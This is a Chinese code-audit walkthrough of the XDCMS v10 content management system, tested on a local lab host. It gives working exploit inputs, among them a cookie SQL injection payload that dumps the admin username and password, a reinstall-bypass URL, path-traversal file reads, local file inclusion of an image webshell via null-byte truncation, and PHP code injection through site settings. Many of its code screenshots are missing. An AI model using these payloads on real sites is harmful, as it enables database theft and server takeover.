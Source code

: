 

本次代码审计案例为：
1、  COOKIES 注入代码分析与漏洞利用(利用工具的使用)；
2、  全局变量的覆盖代码分析与漏洞利用；
3、  后台任意源码读取；
4、  本地包含代码分析与漏洞利用；
5、  后台getshell 代码分析 与利用；
6、  利用二次漏洞拿shell。

1、本地搭建网站


案例1：COOKIES注入分析 （为了方便区别代码部分采用贴图，实例代码请大家自己下载源码查看）
文件：/ system/modules/member/index.php
代码：


$userid=$_COOKIE['member_userid'];  //用$_COOKIE接收，未做任何过滤

$info=$this->mysql->get_one("select * from ".DB_PRE."member where `userid`=$userid");
//直接带入到sql中查询。没有单引号不用考虑GPC
利用工具：
火狐浏览器 + EDIT COOKIES插件(下载地址请百度)

利用方法/步骤：
1、/index.php?m=member&f=register 随便注册一个账号并登录；
2、/index.php?m=member&f=edit 进入资料管理页面






语句：-1 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin



案例二：全局变量的覆盖
文件：/ install/index.php
代码：


代码的意思是把传入的变量数组遍历赋值,比如 $_GET[‘a’]  赋值为 $a
Ok ，继续往下看

传入一个insLockfile判断是否存在。问题在这



将直接跳过判断进行安装。
此时安装的sql数据库文件会记录在 /data/config.inc.php
利用poc:找到可外连的 mysql  (自己去爆破)
直接访问此地址
http://192.168.232.132/xdcmsv10/install/index.php?insLockfile=1&step=4&dbhost=localhost&dbname=xdcms&dbuser=root&dbpwd=root&dbpre=c_&dblang=gbk&adminuser=xdcms&adminpwd=xdcms
加粗部分填写配置   直接绕过 重装




案例三：后台任意源码读取
漏洞文件:system\modules\xdcms\template.php
初看了下后台木有getShell 的地方,ok 还是来老实审计代码吧。
在xdcms  目录下看到 template  文件,目测是后台模板编辑,访问之

HTTP://192.168.232.132/xdcmsv10/index.php?m=xdcms&c=template




额  xdcms 真心有些贱了,写了模板编辑后台又不实用
访问 http://192.168.232.132/xdcmsv10/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php

Mysql相关的问题





编辑模板直接xss



 

再次进行修改  在登录另一个dedecms的网站的情况下 进行设置





存储型的cookie


案例4：本地包含漏洞
文件：/api/index.php
代码：


问题参数$c 有一个safe_replace函数我们追踪一下看看


这个等于没过滤一样的。

利用方法：http://192.168.232.132/xdcmsv10 /api/index.php?c=xxxxxx%00   xxx代表网马地址%00是截断
   这时候的php版本必须是小于5.3的才能使用%00阶段 



在这里就直接配合文件上传 上传一个图片马 直接进行getshell







/xdcmsv10/uploadfile/image/20180911/20180911135406_60561.jpg

这是图片地址

再使用文件包含 进行利用 构造地址

http://192.168.232.132/xdcmsv10 /api/index.php?c=../../xdcmsv10/uploadfile/image/20180911/20180911135406_60561.jpg%00






案例5：后台getshell 代码分析（这个危害比较大 容易让系统崩溃）

文件：/ system/modules/xdcms/ setting.php

代码：





又是用foreach来数组遍历附值。这里的$info['siteurl']是没有经过处理就直接写进来了。

利用方法：/index.php?m=xdcms&c=setting


测试我就只加了这个phpinfo     ');?><?php phpinfo();?>http://127.0.0.1/ 
效果

 Xdcmsv10/System/xdcms.inc.php

http://192.168.232.132/xdcmsv10/index.php?m=xdcms&c=setting#


因为有单引号，所以这个方法有点鸡肋。

案例6：结合我们的后台直接getshell 进行处理
上传后得到的地址：/uploadfile/image/20120624/xxxxx.jpg